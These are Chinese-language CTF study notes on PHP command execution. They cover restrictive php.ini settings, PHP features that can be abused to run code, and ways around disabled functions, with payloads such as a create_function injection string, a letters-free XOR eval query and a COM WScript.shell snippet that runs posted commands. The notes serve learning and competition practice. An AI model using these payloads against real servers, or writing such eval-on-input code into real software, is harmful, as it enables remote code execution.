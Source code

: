 # 命令执行

# 特定语言的命令执行

> 一般可以做什么限制？有什么函数可以利用？在禁用部分函数之后怎么办？如果找到/绕过禁用的函数？

## PHP

### php 函数限制

在 `php.ini` 中可以用以下配置限制内置函数的执行：

```ini
disable_functions=exec,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
```

题目也可能通过 `ini_set` 方法或者字符串检查等方法限制可以执行的函数。

类似地，以下配置可以限制 PHP 进程能够访问的目录：

```ini
open_basedir=/home/user
```

`open_basedir` 能够限制 `file_get_content` 等函数读取文件的范围。

需要留意的是 `open_basedir` 中限制的是目录前缀，上述配置并不能限制访问 `/home/user_12`。

### 可能触发命令执行的方法

#### 特性1: 字符串当作函数

```php
<?php
$a = 'system';
echo $a('whoami');
```

#### 特性2: array_map

```php
<?php

$func = $_GET['a'];
$arr = $_GET['b'];

array_map($func, $arr);
```

类似"字符串当函数"，这里的 `$func` 是字符串，但会被当成函数调用。

#### 特性3: create_function

PHP 提供用 `create_function` 动态创建函数的能力（在 8.0 移除），用法如下：

```php
<?php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
echo $newfunc(2, M_E) . "\n";
```

第一个参数为新函数的参数列表，第二个参数为函数体，其工作原理近似如下：

```php
<?php
$params = $args[0];
$body = $args[1];
$func = eval("function ($params) { $body }");
```

因此只要我们能够控制任一参数，都能够直接完成命令执行，以下是当第一个参数可控时的 payload：

```php
){}; phpinfo(); function(){
```

#### 特性4: preg_replace

当使用被弃用的 `e` 修饰符时, 这个函数会转义一些字符(即：`'`、`"`、 `\` 和 `NULL` 然后进行后向引用替换。在完成替换后， 引擎会将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串。

```php
echo preg_replace('/chabug/e','phpinfo()','asdasdchabugasd');
```

#### 特性5: assert/exec/eval/shell_exec/system/call_user_func/proc_open/passthru/反引号

类似直接执行参数中的内容，略

### 绕过禁止函数的方法

#### 特性1: 无字母 eval

```php
<?php
include 'flag.php';
$code = $_GET['code'];
if(strlen($code)>40){ //检测字符长度
  die("Long.");
}
if(preg_match("/[A-Za-z0-9]+/",$code)){ //限制字母和数字
  die("NO.");
}
@eval($code); //$code的值要为非字母和数字
//$hint = "php function getFlag() to get flag";
```

可以利用字符串运算的结果：如 `'#' ^ '|' = '_'`，因此可以用：

```php
?code=${"{{{{"^"'$<>/"}["`"^"?"]();&_=getFlag
```

#### 特性2: Windows 组件绕过

```php
$command = $_POST[a];
$wsh = new COM('WScript.shell');    //生成一个COM对象
$exec = $wsh->exec('cmd.exe /c '.$command);    //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
```

## Python

## Java

## 其他语言


## 字符串当作函数

语法很简单，关键是题目

 ![](attachments/c839154d-d2d1-4d41-8b71-878b899b9af4.png " =570x317")

### Powershell

例题：（2023信安国赛初赛）

虽然这是逆向题，但是是同一个考点

[problem_658a80448823232e1c4f44d7760ee2da.zip 4646177](attachments/39403974-fb96-455b-af2d-c2e1aef0862f.zip)

### PHP

例题：（2024信安国赛半决赛）

要求输入之后能够调用另一处的某个函数 `myfunction("myparams")`

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
	if(preg_match('/[a-z,A-Z,0-9<>\?]/', $_POST['code']) === 0){
		eval($_POST['code']);
	}else{
		die();
	}
}else{
	phpinfo();
}
?>
```